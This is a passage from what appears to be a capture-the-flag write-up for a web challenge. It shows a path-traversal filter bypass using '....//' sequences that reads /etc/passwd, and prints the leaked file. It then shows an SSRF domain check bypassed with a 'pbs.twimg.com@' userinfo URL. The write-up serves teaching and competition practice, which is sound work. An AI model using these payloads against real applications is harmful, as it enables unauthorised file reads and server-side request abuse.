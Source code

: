 Trying to access `http://worker05.gcc-ctf.com:12033/pfp?name=../../../../etc/passwd` gives us the following error message: `Couldn't find etc/passwd, hecker !`. We're on the right track but our input is filtered. looks like only the `../` have been removed by our input. By modifying our payload to `http://worker05.gcc-ctf.com:12033/pfp?name=....//....//....//....//....//....//etc/passwd` we get acces to the passwd file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
freechat:x:1000:1000::/home/freechat:/bin/bash
```
As from here we could try leaking source code and other stuff but we would have to guess the paths or bruteforce, this isn't funny at all! Let's go forward to the other feature available in the change profile picture area.

## SSRF 

If we want to change our profile picture, two possibilites :
- Upload a local file
- Get the content of a remote picture

TL;DR no vulnerability on the local file upload. Let's focus on the remote file feature. By inputing the URL for a legit png we get greeted with the following error : "The link must start with Twitter's http(s)://pbs.twimg.com domain (specific partneship with their CDN).". Seems like we're restricted to the `pbs.twimg.com` FQDN, hell no!

HTTP Basic Auth allows you to specify a user and password in the URL you're visiting, for example: `https://git:password@github.com/hello/private_rep.git`. Let's use this to our advantage and bypass the filter. So we're going to specify `https://pbs.twimg.com@example.net/img.png` the filter should let us pass because our remote URL starts with a valid input. 

The following payload works -> `https://pbs.twimg.com@bwlryq.net/img/pfp.png`:
